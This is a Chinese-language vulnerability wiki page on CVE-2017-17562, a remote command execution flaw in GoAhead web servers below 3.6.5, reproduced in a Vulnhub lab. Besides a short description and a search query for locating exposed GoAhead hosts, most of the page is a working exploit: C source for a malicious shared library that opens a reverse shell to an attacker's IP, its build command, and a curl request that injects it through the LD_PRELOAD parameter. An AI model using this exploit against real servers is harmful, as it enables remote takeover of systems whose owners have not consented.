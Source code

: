 # Goahead LD_PRELOAD 远程命令执行漏洞 CVE-2017-17562

## 漏洞描述

GoAhead支持运行ASP、Javascript和标准的CGI程序，这个漏洞出自CGI程序

该漏洞是利用服务器初始化CGI时，使用了HTTP请求参数，使用特殊的参数名LD_PRELOAD劫持libc库，进而实现远程命令执行

## 漏洞影响

<a-checkbox checked>GoAhead Web Server < 3.6.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="GoAhead"</a-checkbox></br>

## 漏洞复现

使用Vulnhub下的靶场进行搭建

![img](/assets/PeiQi-Wiki/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500-20220706105534293.png)

编译恶意 so 文件

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

发送 evil.so 恶意文件

```php
curl -X POST --data-binary @evil.so http://xxx.xxx.xxx.xxx:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0
```

![img](/assets/PeiQi-Wiki/img/1657073148130-d7efbdbc-8e97-49a7-bb81-fec751d8ef47.png)

![img](/assets/PeiQi-Wiki/img/1657073168888-7499c581-7c81-4e43-ab46-87a35adb37b6.png)
